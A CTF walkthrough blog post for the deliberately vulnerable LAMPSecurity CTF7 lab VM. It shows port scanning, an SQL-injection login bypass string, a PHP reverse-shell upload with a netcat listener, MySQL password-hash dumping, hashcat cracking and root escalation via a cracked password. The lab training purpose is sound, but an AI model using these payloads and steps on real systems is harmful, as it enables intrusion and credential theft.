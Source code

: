 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF7 - Walkthrough"
date:   2014-04-02 20:00:30
author: Arr0way
description: 'LAMP Security CTF 7 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com/)


## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.134

{% endhighlight %}

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the **web application** as the entry point.</p>
</div>

### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>Samba</p></pc>
           </td>
           <td>
               <pc><p>Samba smbd 3.X (workgroup: MYGROUP)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 901</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Samba SWAT administration server</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 10000</code></p></pc>
           </td>
           <td>
              <pc><p>Webmin</p></pc>
           </td>
           <td>
               <pc><p>(Webmin httpd)</p></pc>
           </td>
        </tr>

     </tbody>

</table>
</div>

## Web Application Enumeration

Host enumeration discovered two web application, one on port <code>80</code> and one on port
<code>8080</code>, as with the previous CTF series VM's, other entry points are
ignored and the **web application** is used for the entry point.

## Web Application on Port 8080

Inspection of the web application revealed it's vulnerable to an SQLi
authentication bypass. By Entering <code>' or 1=1 -- .</code> in the username
field an attacker can successfully login as admin.

![SQL Injection Auth Bypass](/img/blog/ctf7/sqli.png)

Admin account:

![Admin Account SQLi](/img/blog/ctf7/admin-login.png)

### PHP Shell Upload

With admin access to the web application it was possible to upload a reverse
shell.

![Reverse PHP Shell](/img/blog/ctf7/upload-shell.png)

Execution of the php shell was not possible via the web application directly.

### Dirbuster

Dirbuster disclosed the location of the file uploads directory
<code>/assets/</code>.

![OWASP Dirbuster](/img/blog/ctf7/digbuster.png)

### Reverse Shell

![Execute Reverse Shell](/img/blog/ctf7/exec-webshell.png)

Executing the php script resulted in a reverse shell as the user apache:

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.134] from (UNKNOWN) [192.168.221.133] 58599
Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC
2012 i686 i686 i386 GNU/Linux
01:12:47 up  2:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.1$
{% endhighlight %}

## Local Enumeration

Local enumeration discovered mysql root account could be accessed locally
without a password:

{% highlight bash %}
mysql -u root  and no password worked as the apache user.
{% endhighlight %}

### MySQL

{% highlight bash %}
mysql> select username, password from users;
select username, password from users;
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| username
| password                         |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| brian@localhost.localdomain
| 4cb9c8a8048fd02294477fcb1a41191a |
| john@localhost.localdomain
| 0d9ff2a4396d6939f80ffe09b1280ee1 |
| alice@localhost.localdomain
| 2146bf95e8929874fc63d54f50f1d2e3 |
| ruby@localhost.localdomain
| 9f80ec37f8313728ef3e2f218c79aa23 |
| leon@localhost.localdomain
| 5d93ceb70e2bf5daa84ec3d0cd2c731a |
| julia@localhost.localdomain
| ed2539fe892d2c52c42a440354e8e3d5 |
| michael@localhost.localdomain
| 9c42a1346e333a770904b2a2b37fa7d3 |
| bruce@localhost.localdomain
| 3a24d81c2b9d0d9aaf2f10c6c9757d4e |
| neil@localhost.localdomain
| 4773408d5358875b3764db552a29ca61 |
{% endhighlight %}

### Hashcat md5 cracking

The hashes were placed in a text file using the following format:

{% highlight bash %}
brian@localhost.localdomain:4cb9c8a8048fd02294477fcb1a41191a
john@localhost.localdomain:0d9ff2a4396d6939f80ffe09b1280ee1
alice@localhost.localdomain:2146bf95e8929874fc63d54f50f1d2e3
ruby@localhost.localdomain:9f80ec37f8313728ef3e2f218c79aa23
leon@localhost.localdomain:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia@localhost.localdomain:ed2539fe892d2c52c42a440354e8e3d5
michael@localhost.localdomai:9c42a1346e333a770904b2a2b37fa7d3
bruce@localhost.localdomai:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil@localhost.localdomain:4773408d5358875b3764db552a29ca61
charles@localhost.localdomai:b2a97bcecbd9336b98d59d9324dae5cf
{% endhighlight %}

NOTE: In order for hashcat to ignore usernames in a hash input file you need to
specify <code>--username </code>

{% highlight bash %}
[root:~]# hashcat --username -m 0 -a 0 crack-ctf7.txt
/usr/share/wordlists/rockyou.txt
{% endhighlight %}

#### Cracked MD5 Hashes

{% highlight bash %}
ed2539fe892d2c52c42a440354e8e3d5:madrid
4cb9c8a8048fd02294477fcb1a41191a:changeme
5d93ceb70e2bf5daa84ec3d0cd2c731a:qwer1234
2146bf95e8929874fc63d54f50f1d2e3:turtles77
9c42a1346e333a770904b2a2b37fa7d3:somepassword
b2a97bcecbd9336b98d59d9324dae5cf:chuck33
{% endhighlight %}

## Local Privilege Escalation

The julia account was able to <code>su</code> to root.

{% highlight bash %}
bash-4.1$ su - julia
su - julia
Password: madrid

[julia@localhost ~]$ sudo -s
sudo -s
[sudo] password for julia: madrid

[root@localhost julia]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@localhost julia]#
{% endhighlight %}

Thanks for the VM :)
